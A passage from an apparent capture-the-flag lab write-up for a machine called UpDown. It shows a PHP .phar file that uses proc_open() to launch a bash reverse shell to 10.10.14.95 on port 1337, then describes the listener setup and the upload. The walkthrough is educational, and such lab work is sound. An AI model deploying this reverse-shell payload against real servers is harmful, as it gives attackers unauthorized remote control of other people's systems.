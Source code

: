 ![](/assets/updown/disable-functions.png)

According to [Hacktrick]({{page.hacktrick}}), we can use `proc_open()` to execute system commands, and it's not disabled.

## **Initial Access**

we created a file `01.phar` containig a [bash reverse shell]({{page.pat}}) executed using [proc_open()]({{page.hacktrick}})

```php
http://10.10.14.95:9000/
<?php
echo proc_close(proc_open("bash -c 'sh -i >& /dev/tcp/10.10.14.95/1337 0>&1'",array(),$something));
?>
```

We setup two listeners, one on port `1337` to recieve the shell, and the second on port `9000` as before to give us time to execute this file.

![](/assets/updown/nc-rev.png)

Then we uploaded `01.phar`

![](/assets/updown/revshell-upload.png)
